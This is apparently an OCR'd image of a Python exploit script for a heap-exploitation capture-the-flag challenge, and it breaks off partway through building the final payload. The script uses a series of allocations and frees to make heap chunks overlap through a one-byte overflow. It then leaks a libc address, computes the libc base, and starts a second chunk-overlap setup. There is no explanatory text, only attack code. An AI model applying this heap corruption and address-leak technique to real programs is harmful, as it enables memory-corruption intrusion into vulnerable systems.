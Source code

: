 ```python 

add(0x68,b'aaaa',b'aaaa') # 0
add(0x100,b'bbbb',b'bbbb') # 1
add(0x100,b'eeee',b'eeee') # 2
add(0x100,b'cccc',b'cccc') # 3
add(0x100,b'dddd',b'dddd') # 4

delete(1)
delete(2) # ubin size 0x220
delete(0)

add(0x68,b'aaaa',b'a' * 0x68) # 0
add(0xb0,b'bbbb',b'bbbb') # 1 
add(0xb0,b'eeee',b'eeee') # 2 

delete(1)
delete(3)

add(0xb0,b'bbbb',b'bbbb') # 1
show(2)

p.recvuntil(b'Secret : ')
libc_leak = u64(p.recv(6)+b'\0\0')
libc.address = libc_leak - 0x3c3b78
info('libc leak: ' + hex(libc_leak))
info('libc base: ' + hex(libc.address))

delete(1)
delete(4) 
delete(0)

add(0x68,b'aaaa',b'aaaa') # 0
add(0x100,b'bbbb',b'bbbb') # 1
add(0x100,b'eeee',b'eeee') # 3
add(0x100,b'cccc',b'cccc') # 4
add(0x100,b'dddd',b'dddd') # 5 

add(0x68,b'aaaa',b'aaaa') # 6
add(0x100,b'bbbb',b'bbbb') # 7
add(0x100,b'eeee',b'eeee') # 8
add(0x100,b'cccc',b'cccc') # 9
add(0x100,b'dddd',b'dddd') # 10 
# bypass used chunk

add(0x78,b'aaaa',b'aaaa') # 11
add(0x100,b'bbbb',b'bbbb') # 12
add(0x100,b'eeee',b'eeee') # 13
add(0x100,b'cccc',b'cccc') # 14
add(0x100,b'dddd',b'dddd') # 15

delete(12) 
delete(13)
delete(11)

add(0x78,b'aaaa',b'a' * 0x78) # 11
add(0x80,b'bbbb',b'bbbb') # 12
add(0x100,b'eeee',b'eeee') # 13 

delete(12)
delete(14) 

payload = flat(
    b'a'*0x80, 
```